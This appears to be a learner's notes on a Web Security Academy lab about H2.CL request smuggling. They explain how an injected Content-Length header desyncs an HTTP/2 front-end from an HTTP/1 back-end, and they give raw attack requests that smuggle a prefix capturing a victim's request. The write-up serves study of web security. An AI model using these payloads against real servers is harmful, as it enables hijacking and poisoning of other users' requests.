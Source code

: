 The RFC states that any CL header in HTTP/2 requests must match the length calculated using the pre-built mechanism, but it is not always validated before downgrading. It is possible to smuggle requests by injecting a misleading CL header. 

The front-end would use the implicit HTTP/2 length to determine where the request ends, but the HTTP/1 back-end has to refer to the CL header derived from the injected one, resulting in a desync.

For example:

![[FE Request.png]]

![[BE Request.png]]

>[!info]
>Sometimes, you want headers from victim requests to be appended but they can interfere with the attack sometimes. For example, above was mitigated by including a trailing parameter and a CL header in the smuggled prefix. By using a CL header slightly longer than the body, the victim request is still appended to the prefix but is truncated before the headers.
# H2.CL Request Smuggling

For example, confirm the vulnerability by changing the request to POST, remove unnecessary headers and show new lines and turn off update content length to control it manually for testing and finally add a request body parameter to define where the normal content ends.

Make sure to update the Content Length to 5 bytes.

Underneath it all, create the request smuggling request by requesting an invalid path using HTTP/1.1, setting an X-Ignore header without a new line:

```http
POST / HTTP/2
Host: 0a0300bf034f940d813b582c006b0083.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 5

x=1
GET /fdsafsadfasd HTTP/1.1
X-Ignore: x
```

Once sent, the normal request will be appended as follows, ensuring that there is no duplicate HTTP method:

```http
POST / HTTP/2
Host: 0a0300bf034f940d813b582c006b0083.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 0

x=1
GET /fdsafsadfasd HTTP/1.1
X-Ignore: xGET / HTTP/1.1
Host: 0a0300bf034f940d813b582c006b0083.web-security-academy.net
Sec-Ch-Ua: "Chromium";v="129", "Not=A?Brand";v="8"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Windows"
Accept-Language: en-GB,en;q=0.9
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/129.0.6668.71 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
```